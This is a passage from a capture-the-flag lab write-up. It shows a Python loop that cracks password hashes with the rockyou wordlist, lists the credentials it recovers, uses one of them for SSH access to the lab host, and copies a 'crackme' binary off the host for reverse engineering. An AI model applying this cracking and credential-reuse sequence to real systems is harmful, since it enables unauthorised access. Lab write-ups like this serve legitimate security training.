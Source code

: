 ```bash
    
        with open("/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt", "r", errors="ignore") as file:  
            for line in file:
                password = line.strip()
                if check_password_hash(hash, password):
                    log.success(f"Credencial valida: {user}:{password}")
```    

  

We got `5` valid `passwords` and cracked several `hashes` by executing the `exploit.py`
```bash
    ❯ python3 exploit.py
    [+] Credencial valida: pasta:antihacker
    [+] Credencial valida: pepe:sarmiento
    [+] Credencial valida: administrator:ihatepasta  
    [+] Credencial valida: octo:octopass
    [+] Credencial valida: test:test
 ```   

  
##### Getting shell (Initial accesss)

The `pasta` ones seem to be valid for `ssh`, we get a shell on the real machine
```bash
    ❯ ssh pasta@10.13.37.14
    pasta@10.13.37.14's password: antihacker
    pasta@erlenmeyer:~$ id
    uid=1001(pasta) gid=1001(pasta) groups=1001(pasta)
    pasta@erlenmeyer:~$ hostname -I  
    10.13.37.14 172.17.0.1 172.22.0.1
    pasta@erlenmeyer:~$
 ```   

  

We haven't found the `flag` yet, but we do see a build named `crackme`, which might be worth analyzing for potential vulnerabilities or hidden data.
```bash
    pasta@erlenmeyer:~$ ls  
    crackme
    pasta@erlenmeyer:~$
```    

  

We pull the crackme binary using scp over our SSH connection. Running it prompts us to enter the flag, but if we feed it anything random, it just shuts down—no hints, no mercy.
```bash
    ❯ sshpass -p antihacker scp pasta@10.13.37.14:crackme .  
    
    ❯ ./crackme
    Insert flag: test
 ```   

  
We open it and decompile it using `ida` where we can see some functions including the base, `main` which on the right we find all the code in `C`
